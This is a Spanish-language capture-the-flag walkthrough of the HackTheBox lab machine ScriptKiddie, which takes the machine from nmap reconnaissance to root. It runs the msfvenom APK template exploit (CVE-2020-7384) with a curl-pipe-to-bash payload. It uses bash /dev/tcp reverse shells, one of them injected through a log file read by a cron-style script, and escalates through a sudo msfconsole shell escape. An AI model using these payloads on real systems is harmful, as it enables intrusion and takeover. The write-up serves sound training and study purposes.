





# ScriptKiddie


`ScriptKiddie` es una máquina Linux de dificultad fácil que presenta una vulnerabilidad de Metasploit ([CVE-2020-7384](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2020-7384)), junto con ataques clásicos como la inyección de comandos del sistema operativo y una configuración `sudo` insegura sin contraseña. El punto de apoyo inicial en la máquina se obtiene cargando un archivo `.apk` malicioso desde una interfaz web que llama a una versión vulnerable de `msfvenom` para generar cargas útiles descargables. Una vez que se obtiene el shell, el movimiento lateral a un segundo usuario se realiza inyectando comandos en un archivo de registro que proporciona una entrada no higienizada a un script Bash que se activa al modificar el archivo. A este usuario se le permite ejecutar `msfconsole` como `root` a través de `sudo` sin proporcionar una contraseña, lo que resulta en la escalada de privilegios.

<figure><figcaption></figcaption></figure>

***

## Reconnaissance

Realizaremos un reconocimiento con `nmap` para ver los puertos que están expuestos en la máquina **`ScriptKiddie`**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.10.226 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-02 16:36 CET
Initiating SYN Stealth Scan at 16:36
Scanning 10.10.10.226 [65535 ports]
Discovered open port 22/tcp on 10.10.10.226
Discovered open port 5000/tcp on 10.10.10.226
Completed SYN Stealth Scan at 16:37, 12.84s elapsed (65535 total ports)
Nmap scan report for 10.10.10.226
Host is up, received user-set (0.034s latency).
Scanned at 2025-03-02 16:36:48 CET for 13s
Not shown: 65530 closed tcp ports (reset), 3 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
5000/tcp open  upnp    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 12.92 seconds
           Raw packets sent: 65811 (2.896MB) | Rcvd: 65538 (2.622MB)
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.10.226
	[*] Open ports: 22,5000

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX para posteriormente trabajar con ellos. En el resultado, comprobamos que se encuentran abierta una página web de `Werkzeug` y el servicio`SSH`.

```bash
❯ nmap -sCV -p22,5000 10.10.10.226 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-02 16:42 CET
Nmap scan report for 10.10.10.226
Host is up (0.034s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   33.69 ms 10.10.14.1
2   33.82 ms 10.10.10.226

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.39 seconds
```

Transformaremos el archivo generado `targetedXML` para transformar el XML en un archivo HTML para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

## Web Enumeration

Realizaremos a través de la herramienta de `whatweb` un reconocimiento inicial de las tecnologías que utiliza la aplicación web.

```bash
❯ whatweb -a 3 http://10.10.10.226:5000
http://10.10.10.226:5000 [200 OK] Country[RESERVED][ZZ], HTTPServer[Werkzeug/0.16.1 Python/3.8.5], IP[10.10.10.226], Python[3.8.5], Title[k1d'5 h4ck3r t00l5], Werkzeug[0.16.1]
```

Accedemos a http://10.10.10.226:5000 y nos encontramos con la siguiente página web. Al parecer, esta aplicación web ofrece diversas `tools` de `pentesting`, entre las cuales podemos observar los siguientes tres apartados.

* Nmap --> Permite realizar un escaneo de los 100 puertos TCP más comunes de la dirección IP que se le proporcione.
* Payloads --> Permite utilizar `msfvenom` para crear un `meterpreter bin` para generar una RevShell.
* Sploits --> Permite realizar una consulta a través de la herramienta `searchsploit` en busca de vulnerabilidades ya conocidas (CVE).

<figure><figcaption></figcaption></figure>

Realizaremos una enumeración de las diferentes funcionalidades que disponemos, para poder encontrar algún vector de entrada, etc.

En el primer caso, indicamos la dirección IP `127.0.0.1` para que la herramienta se intente realizar un escaneo al mismo servidor para poder localizar algún puerto interno que se encontrase abierto.

En el resultado obtenido, se nos muestra los mismos puertos los cuales habíamos localizado en el reconocimiento inicial con`Nmap`.

<figure><figcaption></figcaption></figure>

Por otro lado, también probamos de intentar realizar un `Command Injection` de diversas maneras, a través de `;` `&&` `||`, etc. Pero tampoco obtuvimos resultados.

<figure><figcaption></figcaption></figure>

A continuación, probamos la siguiente `tool` que ofrecía la aplicación web. En este primer intento para comprobar cómo funcionaba, se le especificó valores normales y comprobamos el resultado obtenido en la respuesta del servidor.  También ofrece una opción de `template file`, que revisaremos más adelante si podemos hacer un `File Upload` o intentar realizar otras acciones.

<figure><figcaption></figcaption></figure>

Intentamos realizar nuevamente un `Command Injection`, pero no logramos obtener resultados.

<figure><figcaption></figcaption></figure>

Para finalizar, realizamos una comprobación de la `tool` llamada `sploits` la cual se basa en la herramienta `searchsploit` para lograr encontrar vulnerabilidades ya reportadas. Realizamos una búsqueda simple y comprobamos que se nos mostraba el resultado de las vulnerabilidades encontradas en la respuesta por parte del servidor.

<figure><figcaption></figcaption></figure>

En este caso, al intentar realizar el `Command Injection`, se nos indicaba un mensaje indicando `stop hacking me - will hack you back`. Dando a entender, que paremos de intentar hackear la aplicación web o nos realizaría lo mismo.

Dado que en este punto, se nos mostró este mensaje de error inusual que en los anteriores funcionalidades no nos apareció, decidimos profundizar más en intentar realizar un `Bypass` al `Command Injection`, pero no logramos obtener resultados.

<figure><figcaption></figcaption></figure>

## Initial Access

### Msfvenom APK Template Exploitation - Command Injection (CVE-2020-7384)

Dado que no disponemos de mucha información sobre la página web y revisando diferentes maneras de intentar realizar un `Command Injection` los cuales no obtuvimos resultado, decidimos realizar lo siguiente.

En la herramienta llamada `payloads` de la aplicación web, sabemos que utiliza la herramienta de `msfvenom` de `Metasploit`. Desconocemos la versión exacta de la herramienta, pero intentamos buscar a ver si había alguna vulnerabilidad en el cual nos encontramos con el siguiente `CVE-2020-7384`.&#x20;

No perderíamos nada intentando realizar la explotación de la siguiente vulnerabilidad, debido que tampoco tenemos gran cosa para avanzar y ganar acceso al sistema, así que nos pondremos manos a la obra.


`Msfvenom` es una herramienta de línea de comandos que se utiliza para generar payloads personalizados para una amplia variedad de sistemas operativos y arquitecturas.


```bash
❯ searchsploit msfvenom
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                      |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Metasploit Framework 6.0.11 - msfvenom APK template command injection                                                                                                                               | multiple/local/49491.py
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```


La trama msfvenom en Metasploit de Rapid7 maneja archivos APK de una manera que permite a un usuario malicioso crear y publicar un archivo que ejecutaría comandos arbitrarios en la máquina de la víctima




Nos copiaremos a nuestro directorio actual de trabajo el exploit que nos muestra disponible la herramienta de `searchsploit`.

```bash
❯ searchsploit -m multiple/local/49491.py
  Exploit: Metasploit Framework 6.0.11 - msfvenom APK template command injection
      URL: https://www.exploit-db.com/exploits/49491
     Path: /usr/share/exploitdb/exploits/multiple/local/49491.py
    Codes: CVE-2020-7384
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/kali/Desktop/HackTheBox/Linux/ScriptKiddie/ScriptKiddie/49491.py


❯ mv 49491.py CVE-2020-7384.py
```

Modificaremos el script de Python para realizar el `Command Injection`. En este caso, para verificar que la aplicación web es vulnerable, lo que inyectaremos es un comando para que realice una petición `cURL` a un recurso que no existe para comprobar en nuestro servidor web que se ha realizado dicha petición. En caso de que nos llegase un `GET`, confirmaríamos que existe el `Command Injection`.


```python
# Exploit Title: Metasploit Framework 6.0.11 - msfvenom APK template command injection
# Exploit Author: Justin Steven
# Vendor Homepage: https://www.metasploit.com/
# Software Link: https://www.metasploit.com/
# Version: Metasploit Framework 6.0.11 and Metasploit Pro 4.18.0
# CVE : CVE-2020-7384

#!/usr/bin/env python3
import subprocess
import tempfile
import os
from base64 import b64encode

# Change me
payload = 'curl http://10.10.14.2/gzzcoo'
```


Una vez tengamos el exploit modificado, lo ejecutaremos y comprobaremos que se nos genera un archivo `APK` malicioso. Para realizar la explotación, la víctima deberá ejecutar `msfvenom` con nuestro archivo `APK` malicioso.

```bash
❯ python3 CVE-2020-7384.py
[+] Manufacturing evil apkfile
Payload: curl http://10.10.14.2/gzzcoo
-dname: CN='|echo Y3VybCBodHRwOi8vMTAuMTAuMTQuMi9nenpjb28= | base64 -d | sh #

  adding: empty (stored 0%)
jar signed.

Warning: 
The signer's certificate is self-signed.
The SHA1 algorithm specified for the -digestalg option is considered a security risk and is disabled.
The SHA1withRSA algorithm specified for the -sigalg option is considered a security risk and is disabled.
POSIX file permission and/or symlink attributes detected. These attributes are ignored when signing and are not protected by the signature.

[+] Done! apkfile is at /tmp/tmp1drlqg5d/evil.apk
Do: msfvenom -x /tmp/tmp1drlqg5d/evil.apk -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null

❯ ls -l /tmp/tmp1drlqg5d/evil.apk
.rw-rw-r-- kali kali 1.9 KB Sun Mar  2 17:11:37 2025  /tmp/tmp1drlqg5d/evil.apk
```

Levantaremos un servidor web con Python para realizar la prueba de la confirmación de la vulnerabilidad.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

En el apartado de `payloads` dejaremos la siguiente configuración y en `template file` subiremos el `evil.apk` que contiene nuestre payload malicioso. Le daremos a la opción de `generate`.

<figure><figcaption></figcaption></figure>

Al darle a dicha opción, en la respuesta por parte del servidor se nos muestra el siguiente mensaje de error.

<figure><figcaption></figcaption></figure>

Pero por parte nuestra, en nuestro servidor web se ha recibido una petición por `GET` desde la dirección IP víctima. Con lo cual, hemos confirmado que la versión que utiliza la aplicación web es `Msfvenom 6.0.11` la cual es vulnerable a `Command Injection`, además hemos podido confirmar la explotación de la vulnerabilidad.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.226 - - [02/Mar/2025 17:14:20] code 404, message File not found
10.10.10.226 - - [02/Mar/2025 17:14:20] "GET /gzzcoo HTTP/1.1" 404 -
```

Con lo cual, el siguiente paso será lograr obtener acceso al sistema. Para ello, crearemos un script en `Bash` que realice la Reverse Shell. Este script lo deberemos compartir a través de un servidor web.

```bash
❯ echo '#!/bin/bash \n/bin/bash -c "bash -i >& /dev/tcp/10.10.14.2/443 0>&1"' > shell.sh

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Editaremos nuevamente el exploit y le indicaremos que realice una petición con `cURL` sobre nuestro script de `Bash` y se ejecute en una `bash` el script que estamos compartiendo.


```python
# Exploit Title: Metasploit Framework 6.0.11 - msfvenom APK template command injection
# Exploit Author: Justin Steven
# Vendor Homepage: https://www.metasploit.com/
# Software Link: https://www.metasploit.com/
# Version: Metasploit Framework 6.0.11 and Metasploit Pro 4.18.0
# CVE : CVE-2020-7384

#!/usr/bin/env python3
import subprocess
import tempfile
import os
from base64 import b64encode

# Change me
payload = 'curl http://10.10.14.2/shell.sh|bash'
```


En una nueva terminal, nos pondremos en escucha con `nc` para recibir la Reverse Shell.

```basic
❯ nc -nlvp 443
listening on [any] 443 ...
```

Utilizaremos nuevamente el exploit para generar un nuevo archivo `APK` malicioso.

```bash
❯ python3 CVE-2020-7384.py
[+] Manufacturing evil apkfile
Payload: curl http://10.10.14.2/shell.sh|bash
-dname: CN='|echo Y3VybCBodHRwOi8vMTAuMTAuMTQuMi9zaGVsbC5zaHxiYXNo | base64 -d | sh #

  adding: empty (stored 0%)
jar signed.

Warning: 
The signer's certificate is self-signed.
The SHA1 algorithm specified for the -digestalg option is considered a security risk and is disabled.
The SHA1withRSA algorithm specified for the -sigalg option is considered a security risk and is disabled.
POSIX file permission and/or symlink attributes detected. These attributes are ignored when signing and are not protected by the signature.

[+] Done! apkfile is at /tmp/tmp7fwr95xx/evil.apk
Do: msfvenom -x /tmp/tmp7fwr95xx/evil.apk -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null

❯ ls -l /tmp/tmp7fwr95xx/evil.apk
.rw-rw-r-- kali kali 1.9 KB Sun Mar  2 17:19:44 2025  /tmp/tmp7fwr95xx/evil.apk
```

Realizaremos los mismos pasos y subiremos este nuevo archivo `APK` malicioso que hemos generado en el paso anterior.

<figure><figcaption></figcaption></figure>

Al utilizar la herramienta vulnerable, finalmente comprobamos que hemos ganado acceso al sistema a través del usuario `kid` y podemos visualizar la flag **user.txt**.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.226] 48646
bash: cannot set terminal process group (891): Inappropriate ioctl for device
bash: no job control in this shell
kid@scriptkiddie:~/html$ cat /home/kid/user.txt
16c4a***************************
```

Al obtener la reverse shell, mejoramos la calidad de la shell con los siguientes pasos para obtener una TTY interactiva.

```bash
kid@scriptkiddie:~/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
kid@scriptkiddie:~/html$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo;fg
[1]  + continued  nc -nlvp 443
                              reset xterm
kid@scriptkiddie:~/html$ export TERM=xterm
kid@scriptkiddie:~/html$ export SHELL=bash
kid@scriptkiddie:~/html$ stty rows 46 columns 230
```

## Pivoting to pwn


### Abusing Logs + Cron Jonb (Command Injection)


```bash
kid@scriptkiddie:/home/pwn$ ls -l
total 8
drwxrw---- 2 pwn pwn 4096 Mar  2 16:20 recon
-rwxrwxr-- 1 pwn pwn  250 Jan 28  2021 scanlosers.sh
kid@scriptkiddie:/home/pwn$ ./scanlosers.sh
bash: ./scanlosers.sh: Permission denied

kid@scriptkiddie:/home/pwn$ cat scanlosers.sh 
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

/home/kid/html/app.py


```bash
def searchsploit(text, srcip):
    if regex_alphanum.match(text):
        result = subprocess.check_output(['searchsploit', '--color', text])
        return render_template('index.html', searchsploit=result.decode('UTF-8', 'ignore'))
    else:
        with open('/home/kid/logs/hackers', 'a') as f:
            f.write(f'[{datetime.datetime.now()}] {srcip}\n')
        return render_template('index.html', sserror="stop hacking me - well hack you back")
```



```bash
regex_alphanum = re.compile(r'^[A-Za-z0-9 \.]+$')
```


```python
❯ python3
Python 3.13.2 (main, Feb  5 2025, 01:23:35) [GCC 14.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import datetime
>>> srcip = "10.10.14.2"
>>> f'[{datetime.datetime.now()}] {srcip}\n'
'[2025-03-02 17:40:10.917029] 10.10.14.2\n'
```


```bash
kid@scriptkiddie:~/logs$ echo '[2025-03-02 17:40:10.917029] 10.10.14.2' > hackers; cat hackers; echo 'pause'; sleep 1; cat hackers; echo 'done'
[2025-03-02 17:40:10.917029] 10.10.14.2
pause
done
```


```bash
kid@scriptkiddie:~/logs$ echo '[2025-03-02 17:40:10.917029] 10.10.14.2' | cut -d' ' -f3- 
10.10.14.2
```



```bash
sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
```



```bash
kid@scriptkiddie:~/logs$ echo 'x x x 10.10.14.2; curl 10.10.14.2/gzzcoo #' | cut -d' ' -f3- 
x 10.10.14.2; curl 10.10.14.2/gzzcoo #
```


```bash
nmap --top-ports 10 -oN recon/x 10.10.14.2; curl 10.10.14.2/gzzcoo #.nmap x 10.10.14.2; curl 10.10.14.2/gzzcoo # 2>&1 >/dev/null"
```


```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```


```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```


```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.226 - - [02/Mar/2025 18:03:45] code 404, message File not found
10.10.10.226 - - [02/Mar/2025 18:03:45] "GET /gzzcoo HTTP/1.1" 404 -
```


```bash
❯ nc -nlvp 444
listening on [any] 444 ...
```


```bash
kid@scriptkiddie:~/logs$ echo "x x x 10.10.14.2; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.2/444 0>&1' #" > hackers
```


```bash
❯ nc -nlvp 444
listening on [any] 444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.226] 44498
bash: cannot set terminal process group (840): Inappropriate ioctl for device
bash: no job control in this shell
pwn@scriptkiddie:~$ 
```


```bash
❯ nc -nlvp 444
listening on [any] 444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.226] 44498
bash: cannot set terminal process group (840): Inappropriate ioctl for device
bash: no job control in this shell
pwn@scriptkiddie:~$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
pwn@scriptkiddie:~$ ^Z
zsh: suspended  nc -nlvp 444
❯ stty raw -echo;fg
[1]  + continued  nc -nlvp 444
                              reset xterm
                              
pwn@scriptkiddie:~$ export TERM=xterm
pwn@scriptkiddie:~$ export SHELL=bash
pwn@scriptkiddie:~$ stty rows 46 columns 230
```

## Privilege Escalation

### Abusing sudoers privilege (msfconsole)


```bash
pwn@scriptkiddie:~$ sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```


```bash
❯ searchbins -b msfconsole -f sudo

[+] Binary: msfconsole

================================================================================
[*] Function: sudo -> [https://gtfobins.github.io/gtfobins/msfconsole/#sudo]

	| sudo msfconsole
	| msf6 > irb
	| >> system("/bin/sh")
```


````bash
pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole 
                                                  

                                   .,,.                  .
                                .\$$$$$L..,,==aaccaacc%#s$b.       d8,    d8P
                     d8P        #$$$$$$$$$$$$$$$$$$$$$$$$$$$b.    `BP  d888888p
                  d888888P      '7$$$$\""""''^^`` .7$$$|D*"'```         ?88'
  d8bd8b.d8p d8888b ?88' d888b8b            _.os#$|8*"`   d8P       ?8b  88P
  88P`?P'?P d8b_,dP 88P d8P' ?88       .oaS###S*"`       d8P d8888b $whi?88b 88b
 d88  d8 ?8 88b     88b 88b  ,88b .osS$$$$*" ?88,.d88b, d88 d8P' ?88 88P `?8b
d88' d88b 8b`?8888P'`?8b`?88P'.aS$$$$Q*"`    `?88'  ?88 ?88 88b  d88 d88
                          .a#$$$$$$"`          88b  d8P  88b`?8888P'
                       ,s$$$$$$$"`             888888P'   88n      _.,,,ass;:
                    .a$$$$$$$P`               d88P'    .,.ass%#S$$$$$$$$$$$$$$'
                 .a$###$$$P`           _.,,-aqsc#SS$$$$$$$$$$$$$$$$$$$$$$$$$$'
              ,a$$###$$P`  _.,-ass#S$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$####SSSS'
           .a$$$$$$$$$$SSS$$$$$$$$$$$$$$$$$$$$$$$$$$$$SS##==--""''^^/$$$$$$'
_______________________________________________________________   ,&$$$$$$'_____
                                                                 ll&&$$$$'
                                                              .;;lll&&&&'
                                                            ...;;lllll&'
                                                          ......;;;llll;;;....
                                                           ` ......;;;;... .  .


       =[ metasploit v6.0.9-dev                           ]
+ -- --=[ 2069 exploits - 1122 auxiliary - 352 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: View advanced module options with advanced

msf6 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object
>> system("/bin/bash")

root@scriptkiddie:/home/pwn# whoami
root
root@scriptkiddie:/home/pwn# cat /root/root.txt 
17c4d4fbd4d18cce56ed423a84b6e873
````
